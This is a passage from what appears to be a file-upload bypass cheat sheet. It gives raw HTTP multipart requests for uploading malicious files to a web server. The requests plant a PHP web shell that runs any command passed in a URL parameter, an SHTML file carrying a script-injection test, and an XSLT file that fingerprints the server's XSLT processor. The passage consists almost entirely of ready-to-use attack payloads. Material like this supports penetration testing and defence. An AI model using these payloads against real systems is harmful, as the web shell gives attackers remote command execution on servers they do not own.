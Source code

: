 ```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="webshell.shelled"
Content-Type: text/php

<?php 
echo "shelled: ";
system($_GET['cmd']); 
?>
-----------------------------4829104394923874193918493216
```

#### SHTML/SHTM Extension Allowed
`.shtml` and `.shtm` files are related to a scripting language called Server Side Includes. They are meant to allow for pages to include other pages using some HTML-like syntax.
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="file" filename="xss.shtml"
Content-Type: text/html

<script>alert(1)</script>
-----------------------------4829104394923874193918493216
```

#### XSLT Extention Allowed (TODO)
Extensible Stylesheet Language Transformations (XSLT) is an XML-based language usually used when transforming XML documents into HTML, another XML document, or PDF. 
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="file" filename="xss.xslt"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
-----------------------------4829104394923874193918493216
```
